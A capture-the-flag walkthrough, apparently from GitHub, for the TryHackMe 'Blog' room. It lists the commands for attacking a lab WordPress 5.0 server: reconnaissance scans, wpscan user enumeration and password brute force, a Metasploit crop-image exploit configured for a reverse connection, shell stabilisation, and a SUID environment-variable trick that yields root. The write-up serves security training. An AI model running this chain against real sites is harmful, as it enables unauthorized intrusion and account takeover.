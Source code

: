 ## Wordpress Blog Room from Try Hack Me.

## Difficulty: Medium

When we first paste the ip in google we come to a website called Billy Joels IT Blog

If we take a look around the page we see that it is running the CMS (Content Management System) Wordpress.

![image](https://user-images.githubusercontent.com/66257304/131880040-697415e7-172d-4efb-b939-d2cb5d1327a2.png)

Using this information we can answer question number 4, What CMS was Billy using?

# Nmap Scan

We should run an Nmap scan so we know all the open ports on the machine, This can be done by using the command, `nmap -sC -sV [IP]`, with [IP] being the ip address of the machine.

After a while this will return a long list of open ports.

![image](https://user-images.githubusercontent.com/66257304/131881935-a228cd04-860b-4ca1-920a-ae54f1e80585.png)

As we can see it has port 80 open, which is running the web page, port 22 which is running ssh, this is what we will connect to when we have the credentials to, we also have ports 139 & 445 open which is samba, to learn more about samba shares, you can go to this link https://www.samba.org/samba/docs/SambaIntro.html.

# Gobuster

To see if there are any hidden directories or files we can run a Gobuster Scan using the command, `gobuster dir -u "http://[IP]" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

This will return a list of directories which were found.

![image](https://user-images.githubusercontent.com/66257304/131883517-f94ee892-a1d0-4410-9e1f-e8dd1c4a1d1a.png)

We are most interested in /login which brings us to the wordpress login page.

![image](https://user-images.githubusercontent.com/66257304/131883946-e0e5ed2c-4b60-46d5-a3b8-c39028d88d4d.png)

# wpscan

wpscan is a great tool made by wordpress to test the security of wordpress websites, we can use it to check if there are any other things we missed, we can use the command `wpscan --url http://[IP] --enumerate u`

--enumerate u is used to try and find the users.

We see there are two users, bjoel and kwheel.

![image](https://user-images.githubusercontent.com/66257304/131889715-52275fbc-a13a-41e1-b3ba-bb0d5a876f0b.png)

We also see there is a robots.txt file.

![image](https://user-images.githubusercontent.com/66257304/131884524-198458bc-7a10-47da-821e-7bec5ce22e35.png)

If we go to it we see, 

![image](https://user-images.githubusercontent.com/66257304/131884680-46501f8b-6a9e-4811-875f-a5e711a86f67.png)

This means that the file `/wp-admin/admin-ajax.php` is readable by us, and if we go to it we see,

![image](https://user-images.githubusercontent.com/66257304/131884843-e2fc97e0-c623-48a5-b441-7144eac6825c.png)

Seemingly a dead end...

If we keep looking at the output we see the wordpress version being used is 5.0.

![image](https://user-images.githubusercontent.com/66257304/131885006-9e87738e-9fa9-4a3e-bc06-93b4311b150d.png)

This is the answer to question number 5, What version of the above CMS was being used?

Now we can bruteforce bjoel and kwheel's login passwords, since we know his username we can use a wordlist like rockyou.txt, this is pre-installed on kali in the directory `/usr/share/wordlists/rockyou.txt`, if you do not have it, you can download it from this link https://dekisoft.com/rockyou-txt-gz-password-list-download/.

To bruteforce their passwords we will be using wpscan's built in bruteforcer, we can do this by using the command `wpscan --url http://10.10.66.164 --password-attack wp-login -U bjoel,kwheel -P /usr/share/wordlists/rockyou.txt`.

SUCCESS!!

We find that kwheel's password is cutiepie1.

![image](https://user-images.githubusercontent.com/66257304/131890570-c9fed0ba-1216-41a6-b273-86b482c0ad40.png)

With this info, we can now login to her account.

We're in!

Now we can search for some exploits, since we know this website is using wordpress version 5.0, we can use the command `searchsploit wordpress 5.0`.

We see there a quite a few results but the one that catches my eye is this.

![image](https://user-images.githubusercontent.com/66257304/131892290-3f05b699-31eb-4d3e-a962-adc839821cbd.png)

To use this we need to start up metasploit and search for it using the command `search crop-image`.

Then we need to use the exploit by using the command `use exploit/multi/http/wp_crop_rce`.

Now we need to set the parameters, to see them use the command `show options`, for this we need to change the, password, RHOSTS, username, LHOSTS and LPORT, to change these use the command `set password cutiepie1`, `set RHOSTS [IP]`, `set username kwheel`, `set LHOSTS [YOUR IP]` and `set LPORT 4444`.

Now we can use the command `exploit` to run the exploit.

When the exploit completes we will see this screen. 

![image](https://user-images.githubusercontent.com/66257304/131910788-9c4733e0-2ac8-46ac-ab22-f8dec23c0a56.png)

Then we run the command `shell` to get into a shell

Now we need to stabilise the shell so we can use bash commands, this can be done by running the command `python -c 'import pty; pty.spawn("/bin/sh")'`

We are now on the machine as the user www-data, usually if we were to navigate to /home/bjoel the user flag would be there but when we cat the file out we get this.

![image](https://user-images.githubusercontent.com/66257304/131911443-6ba7195d-0686-4d8a-aeef-3e8c880f7447.png)

So we are going to have to do some privelage escalation, we can check for SUID Binarys by running the command `find / -perm -u=s -type f 2>/dev/null`.

We see an unusual output.

![image](https://user-images.githubusercontent.com/66257304/131911718-da7831af-15f5-4be8-a0b5-8d5935d0f045.png)

Lets take a look at this, we can use the command `ltrace checker` to see what it actually does.

![image](https://user-images.githubusercontent.com/66257304/131911861-49b2593d-c932-4f33-b353-994673bbde4d.png)

Hmmmm, seems that it gets the admin environment variable and prints out "Not Admin" , so what if we change this variable?

Run the command `export admin=1`.

Seems that changed the variable...

![image](https://user-images.githubusercontent.com/66257304/131912141-63712d34-151e-4469-a5d4-22f89ca8413e.png)

What if we run checker now, what will it do, run the command `checker`.

And BOOM!, we are root.

![image](https://user-images.githubusercontent.com/66257304/131912236-6db90137-9c75-4f9a-b81d-ccce61e06335.png)

Okay, now we are root we need to find the flags to finish off the machine.

We can easily get the root flag by navigating to /root/root.txt

Now we need to find the user flag, to do this we need to run the command `find / 2>/dev/null | grep user.txt` which checks all the files on the system and checks if it is called user.txt and if it is not, it is ignored, so now we know where the user flag is, we can submit the flags and where we found it to finish the last 2 questions.

Well Done!







